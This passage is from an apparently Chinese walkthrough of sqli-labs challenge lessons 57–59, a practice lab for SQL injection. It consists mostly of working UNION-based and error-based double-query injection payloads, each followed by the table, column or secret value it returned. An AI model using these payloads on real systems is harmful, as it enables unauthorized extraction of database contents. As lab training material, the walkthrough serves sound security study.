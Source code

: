 `secret_G8PM`

获取key

`0" union select 1,2,group_concat(secret_G8PM) from VAFBXAV18O %23`

`dRwHUUQ2TXSGUZ556g7FikFJ`
***
# less 58(GET-challenge-Double Query-5 queries allowed-Variation 1)
## 原理
双查询来报错查询


## 步骤

获取表

`1'and (select count(*) from information_schema.tables group by concat('~',(select table_name from information_schema.tables where table_schema=database() limit 0,1),'~',floor(rand(0)*2))) %23`

`5H512U9U27`

获取列

`1'and (select count(*) from information_schema.tables group by concat('~',(select column_name from information_schema.columns where table_schema=database() and table_name='5H512U9U27' limit 2,1),'~',floor(rand(0)*2))) %23`

`secret_DD13`

获取key

`1'and (select count(*) from information_schema.tables group by concat('~',(select secret_BJYY from 9JMRBSMHB3 limit 0,1),'~',floor(rand(0)*2))) %23`

`fJw5d5MfwbirBtiV6ajyMVYL`

***
# less 59()
## 原理
id变为数字型 没有闭合方式


## 步骤

获取表

`1 and (select count(*) from information_schema.tables group by concat('~',(select table_name from information_schema.tables where table_schema=database() limit 0,1),'~',floor(rand(0)*2))) %23`

`N6JFY84247`
